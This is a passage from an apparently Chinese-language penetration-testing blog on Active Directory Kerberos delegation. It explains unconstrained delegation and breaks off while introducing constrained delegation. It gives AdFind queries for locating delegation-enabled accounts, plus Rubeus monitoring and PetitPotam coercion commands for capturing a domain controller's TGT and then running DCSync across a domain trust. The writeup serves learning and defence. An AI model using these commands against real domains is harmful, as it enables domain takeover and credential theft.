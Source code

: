 `Windows 2000`引进非约束委派。

配置非约束委派需要`SeEnableDelegation`权限。这个权限通常只授予域管理员。

被配置了非约束性委派的机器。其他用户（比如说域管）访问这台机器时，会携带该用户的TGT。并将TGT缓存进非约束委派机器lsass内存中。如下图，

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image@latest/blog/image-20220222141549-62ntywc.png)

正常未被配置委派的机器lsass内存中只有服务票据ST。

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image@latest/blog/image-20220222141646-n9npho6.png)

### 利用

配置了非约束委派的用户的`userAccountControl`属性有个FLAG位`TrustedForDelegation`。

```bash
查询非约束委派用户
AdFind.exe -b "DC=adc,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
查询非约束委派机器
AdFind.exe -b "DC=adc,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName

```

由于用户访问非约束委派主机会自动留下自己的TGT，所以利用思路一般是：

1. 诱导域管访问该主机。从而获取域管TGT。
2. 结合打印机bug或者Petitpotam强制域内机器访问该主机。

第二种方法有一个经典攻击场景：**跨域**

因为域控默认是非约束委派。且父域和子域之间默认是双向信任关系。所以当我们拿下一台子域控后。可以通过PetitPotam强制父域控访问子域控从而获得父域控机器账户TGT。然后进行dcsync父域。

需要注意一个细节的是使用打印机bug或者Petitpotam时要使用host不要用ip。否则会失败。

```bash
Rubeus监听
.\Rubeus.exe monitor /interval:1 /filteruser:DC01$

python3 PetitPotam.py WEB2 10.10.10.10

PTT然后dcsync
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image@latest/blog/image-20220304210713-rld7916.png)

## 约束性委派

### 介绍

`Windows 2003`引入了约束性委派

配置约束性委派也需要`SeEnableDelegation`权限。

> 具体过程是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的可转发的TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务。
>
> 相较于非约束委派，约束委派最大的区别也就是配置的时候选择某个特定的服务，而不是所有服务。
>
